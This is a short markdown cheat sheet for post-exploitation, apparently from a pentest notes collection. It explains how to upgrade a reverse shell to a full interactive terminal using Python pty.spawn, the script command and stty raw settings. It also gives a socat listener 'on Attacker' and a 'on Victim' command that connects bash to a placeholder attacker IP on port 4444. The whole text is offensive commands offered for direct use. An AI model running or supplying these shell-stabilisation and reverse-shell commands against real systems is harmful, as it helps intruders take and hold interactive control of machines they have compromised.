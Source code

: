 # Python shell

```bash
#On REV shell
which python
# python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm

# python2.7
python -c 'import pty; pty.spawn("/bin/bash")'
```

* **On Attacker PC** : -- **Ctrl + Z** -- **Enter** -- **stty raw -echo** in attacking terminal and note down the values for rows and columns.

```bash
stty raw -echo; fg
stty rows NUMBER cols NUMBER
```

# Script shell

```bash
# On REV shell
which script 
/usr/bin/script -qc /bin/bash /dev/null
export TERM=xterm
```

# Socat

```bash
# on Attacker
socat file:`tty`,raw,echo=0 tcp-listen:4444

# on Victim
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker-ip>:4444
```
